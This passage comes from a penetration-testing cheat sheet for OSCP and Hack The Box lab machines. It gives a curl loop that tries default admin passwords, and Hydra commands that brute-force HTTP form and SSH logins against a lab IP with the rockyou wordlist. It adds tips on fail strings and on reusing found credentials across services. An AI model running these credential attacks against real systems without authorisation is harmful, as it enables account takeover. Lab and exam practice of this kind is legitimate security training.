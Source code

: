 ### 4.2 Simple POST

```bash
for p in admin password ''; do
  curl -s -X POST 'http://10.10.10.56/login.php' \
    -d "username=admin&password=$p" | grep -Ei 'Welcome|Dashboard|Logout' \
    && echo "admin:$p WORKS"
done
```

**Why:** OSCP exam boxes and HTB machines often still use `admin:admin` or `root:root`.

⚠️ **Common Mistakes & Fixes**:

* ❌ Going straight to Hydra brute force.
  ✅ My workflow enforces defaults first → saves hours.

---

## 5. Hydra (timeboxed brute force)

Only after defaults fail. Strictly limit to 5–10 minutes.

### 5.1 HTTP POST

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.56 \
  http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid" \
  -f -V -I -t 4 \
  -o scans/10.10.10.56/cracking/http_post.txt
```

### 5.2 HTTP GET

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.56 \
  http-get-form "/admin/:username=^USER^&password=^PASS^:F=Invalid" \
  -f -V -I -t 4 \
  -o scans/10.10.10.56/cracking/http_get.txt
```

### 5.3 SSH

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
  -P /usr/share/wordlists/rockyou.txt 10.10.10.56 ssh \
  -f -V -I -t 4 \
  -o scans/10.10.10.56/cracking/ssh.txt
```

⚠️ **Common Mistakes & Fixes**:

* ❌ Wrong fail string (Hydra doesn’t know what counts as failure).
  ✅ My sample Hydra commands explicitly use `F=Invalid`, and notes remind you to test fail strings in Burp first.
* ❌ Letting Hydra run forever, causing lockouts.
  ✅ My commands include `-f` (stop after first hit) + I explicitly state to timebox 5–10 minutes.
* ❌ Forgetting to reuse found creds (HTTP → SSH/FTP).
  ✅ My notes explicitly remind you to test creds across all available services.

---